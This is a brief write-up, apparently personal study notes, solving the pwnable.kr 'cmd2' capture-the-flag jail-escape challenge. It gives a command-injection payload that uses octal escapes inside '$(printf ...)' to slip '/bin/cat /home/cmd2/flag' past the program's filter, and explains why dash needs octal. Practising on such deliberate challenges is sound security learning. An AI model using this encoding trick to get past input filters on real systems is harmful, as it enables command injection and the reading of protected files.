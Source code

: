 ```yaml
---
title: Pwnable.kr Cmd2
date: 2022-08-20T19:28:06+02:00
tags: ['cs/security']
aliases: ['']
---
```


Similar to [[notes/uolp | cmd1]], this one is another jail escape. I am not
going to go too much into details, but we can run the following to run

```
/bin/cat /home/cmd2/flag
```

```
/cmd2 '$(printf "\057\142\151\156\057\143\141\164\040\057\150\157\155\145\057\143\155\144\062\057\146\154\141\147")'
```

The reason we use `\<octal>` instead of `\x<hex>` is because the first one is
more standard we the cmd is run in dash shell.

